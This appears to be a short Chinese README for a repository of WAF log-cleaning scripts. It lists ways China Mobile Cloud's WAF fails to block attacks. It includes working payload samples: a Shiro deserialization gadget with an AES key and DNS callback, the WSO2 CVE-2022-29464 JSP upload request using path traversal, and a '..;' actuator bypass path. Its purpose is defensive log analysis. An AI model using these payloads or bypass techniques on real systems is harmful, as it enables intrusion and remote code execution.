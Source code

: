 # waf-log-clean-data-script
存放在工作中为了从大量日志中清洗出有用的数据的脚本
# 移动云waf
不好用
1.无法设置全局封禁ip

2.SQL注入使用内联注释可绕过,存在MD5编码绕过，CHR()函数构造绕过，以及最普通的SQL注入存在概率放行

3.数据包X-Forwarded-For:IP0,IP1,IP2... IP0为攻击者真实IP，移动云waf显示为IP2。

4.反序列化攻击流量paylaodbase64编码，能检测但不阻拦 

样本
```
bundle={{concat(url_encode(base64(aes_cbc(base64_decode(generate_java_gadget("dns", "http://{{reverse.url}}", "base64")), base64_decode("Dmmjg5tuz0Vkm4YfSicXG2aHDJVnpBROuvPVL9xAZMo="), base64_decode("QUVTL0NCQy9QS0NTNVBhZA==")))), '$2')}}
```

5.文件上传有概率，检测但不阻拦

样本:
```
POST /fileupload/toolsAny HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Kubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Connection: close Content-Length: 375
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311
Accept-Encoding: gzip
X-Forwarded-For:  -----------------------------250033711231076532771336998311
Content-Disposition: form-data;

name="../../../../repository/deployment/server/webapps/authenticationendpoint/2yjbn94qnqeqdikvv30zcavar2a.jsp";filename="test.jsp" Content-Type: application/octet-stream <% out.print("WSO2-RCE-CVE-2022-29464"); %> -----------------------------250033711231076532771336998311--
```

6.使用`..;`可以进行被绕过
样本:

```
/aspnet_client/actuator/aspnet_client/actuator/env/..;/..;/..;//actuator/env
```
